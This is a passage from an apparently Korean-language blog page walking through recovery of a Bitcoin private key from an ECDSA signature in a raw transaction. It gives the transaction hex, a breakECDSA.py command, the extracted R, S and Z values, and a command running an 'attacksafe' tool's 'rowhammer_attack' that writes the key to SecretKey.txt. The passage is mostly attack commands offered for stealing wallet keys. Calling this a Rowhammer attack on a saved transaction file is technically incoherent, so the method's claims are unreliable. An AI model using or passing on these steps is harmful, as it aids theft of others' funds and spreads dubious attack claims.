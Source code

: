 
<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-132-1024x302.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1217"/></figure>



<pre class="wp-block-code"><code>R = 0x04b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb2
S = 0x282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad5
Z = 0x7270a25b48c53581f9babe8edcf27f9a038e7b57e817a8b242a49e2248bc71a7</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000104118e34a0d3c06c842d14707ed5f333d3ba1d35240086a4b5738a2fa810abec1d0000006a473044022004b1d0c7d278439811c27d9ff06b3bb0fd20d5cc90d97083266bdba7d0693bb20220282c6cea6b9ad6f4633596204ebad4716e2a086090faf62a6908bf63a1724ad501210335a395eca8191c43ccee4d91e98b9baef39476d7482cf636e5b71975c69feebdffffffff014e020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-135-1024x351.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1225"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool rowhammer_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>


